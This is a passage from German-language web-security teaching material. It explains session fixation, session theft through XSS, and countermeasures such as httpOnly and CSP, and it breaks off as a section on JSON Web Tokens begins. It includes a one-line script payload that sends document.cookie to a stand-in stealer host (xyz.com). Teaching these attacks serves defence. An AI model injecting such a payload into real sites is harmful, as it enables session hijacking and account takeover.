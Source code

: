 Letzteres passiert, wenn die Webapplikation beim ersten Zugriff eines
Browsers eine Session-Id vergibt und diese während des Logins nicht neu
setzt. Im einfachsten Fall würde ein Angreifer kurz Zugriff auf den
Browser des Opfers erhalten (z.B. durch einen nicht gesperrten PC
innerhalb eines Büros), die Zielwebseite besuchen und den Wert des
Session Cookies aufzeichnen. Wenn sich nun (Stunden später) das Opfer
einloggt, kennt der Angreifer bereits den Wert des Session-Cookies und
kann auf diese Weise die Session übernehmen.

Alternativ: unter der Annahme, dass die Webseite zusätzlich eine
Operation besitzt bei der das Session-Cookie mittels HTTP GET Parameter
übergeben wird. In dem Fall kann der Angreifer einen Social Engineering
Angriff durchführen. Er verschickt Emails mit Links auf die betreffende
Operation mit zufällig generierten Session-Ids. Wenn ein Opfer nun auf
diese Operation zugreift, erkennt der Webserver, dass das Opfer nicht
eingeloggt ist und leitet das Opfer zum Login-Dialog. Das Opfer logt
sich ein, der Webserver übernimmt die Session-Id. Der Angreifer muss nur
periodisch testen, ob mit einer der versendeten Session-Ids ein Login
möglich ist.

### Session-Extraktion mittels XSS-Lücke

Mittels Javascript kann auf Session-Cookies zugegriffen werden. Falls
die Webseite eine (der häufigen) XSS-Lücken[3]) besitzt kann ein
Angreifer nun Javascript-Code auf der Webseite platzieren, warten bis
ein anderer Benutzer darauf zugreift und mittels des Javascript-Codes
die Session-Id auf einen externen Server übermitteln. Dieser
Angriffsvektor macht vor allem Spaß, wenn eine Nachrichtenfunktion
innerhalb einer Applikation verwundbar ist, da man dadurch einzelne
Benutzer direkt anvisieren kann.

Beispiel für ein einfaches Javascript-Fragment welches ein Redirect auf
einen externen Server (xyz.com) durchführt und als GET-Parameter die
aktuellen Cookies übergibt:

```html
    <script>location.href = 'http://xyz.com/stealer.php?cookie='+document.cookie;
    </script>
```

Folgende Gegenmaßnahmen sollten implementiert werden:

-   keine XSS-Lücke in der Webseite implementieren…

-   durch Verwendung des httpOnly-Cookie Flags kann dem Webbrowser
    mitgeteilt werden, dass der Zugriff mittels Javascript auf das
    Session Cookie nicht erlaubt ist.

-   CSP bietet Möglichkeiten XSS-Angriffe einzuschränken.

## JSON Web Tokens

JSON Web Tokens (JWT) sind standardisierte (RFC 7519) Tokens die als
HTTP Parameter, HTTP Session Cookies oder mittels eines HTTP Headers
übertragen werden können. Ein JSON Web-Token besteht aus drei Bereichen:
